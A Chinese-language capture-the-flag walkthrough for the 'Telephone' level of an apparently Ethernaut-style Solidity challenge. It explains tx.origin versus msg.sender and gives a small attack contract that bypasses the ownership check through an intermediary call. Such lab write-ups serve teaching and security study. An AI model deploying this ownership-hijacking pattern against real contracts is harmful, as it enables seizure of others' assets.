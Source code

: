 ### 第五关 Telephone
### 难度1/5
## 这一关的通关条件是取得合约的所有权。
## 代码如下：
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
合约很简短，只有一个函数，函数名字也很直接叫“changeOwner”。观察可以发现，改变owner的条件是“tx.origin != msg.sender”。在 Solidity中，tx.origin 和 msg.sender 都是用于标识地址的全局变量，但它们的含义和用途有显著区别。
## msg.sender
表示当前调用智能合约的直接调用者的地址,可以是用户（外部账户）或另一个智能合约。例如，如果用户 A 调用合约 C 的函数，对于合约 C 来说，msg.sender就是 A 的地址；如果合约 B 调用合约 C，对于合约 C 来说，msg.sender就是合约 B 的地址。
## tx.origin
表示整个交易的原始发起者的地址。它是“最初触发交易的外部账户（EOA，Externally Owned Account）”的地址，无论中间经过多少层合约调用。例如，如果用户 A 调用合约 B，B 再调用合约 C，对于合约 B 和合约 C 来说，tx.origin都是外部账户 A。
## 解题步骤：
1. 打开remix线上编辑器,新建攻击合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract ChangeTelephone {

    address levelInstance;

    constructor(address _levelInstance) {
      levelInstance = _levelInstance;
    }

    function attack() public {
        ITelephone(levelInstance).changeOwner(tx.origin);

    }
}
```
2. 输入instance地址，部署合约，调用attack函数。
3. 提交过关。


